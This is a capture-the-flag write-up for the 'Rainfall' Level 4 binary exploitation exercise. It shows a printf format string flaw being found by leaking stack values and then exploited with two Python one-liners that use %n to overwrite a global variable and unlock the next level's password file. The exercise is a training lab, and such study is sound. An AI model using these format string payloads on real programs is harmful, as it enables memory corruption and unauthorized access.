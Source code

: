 
# Rainfall - Level 4

## Executable Analyse
Program contain 3 functions: `main`, `n`, `p`, and contain a global m.  
`main`, call `n`, that call `p`.
Vulnerable function is in `n`, and execute *system("/bin/cat /home/user/level5/.pass");*  
Principe looks identic to the previous level, we need to set m == 16930116

```assembly
(gdb) info var
[...]
0x08049810  m
```

## Vulnerability

```shell
$> ./level4 
ABCD %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

ABCD 0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x44434241 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025
```

From the 12th address (`0x44434241`) we can see that printf receives the contents of our buffer as an argument.  
The same way we exploit the precedent program, this one can be abuse with :


```shell
python -c "print b'\x08\x04\x98\x10'[::-1] + '%20p'*10 + '%16929912p' + '%n'" | ./level4
```

A more elegant solution can be found by reading the [printf man](https://linux.die.net/man/3/printf) :
>  One can also specify explicitly which argument is taken [...] by writing "%m$" instead of '%', where the decimal integer m denotes the position in the argument list of the desired argument, indexed starting from 1.

```shell
python -c 'print "\x08\x04\x98\x10"[::-1] + "%16930112x" + "%12$n"' | ./level4
```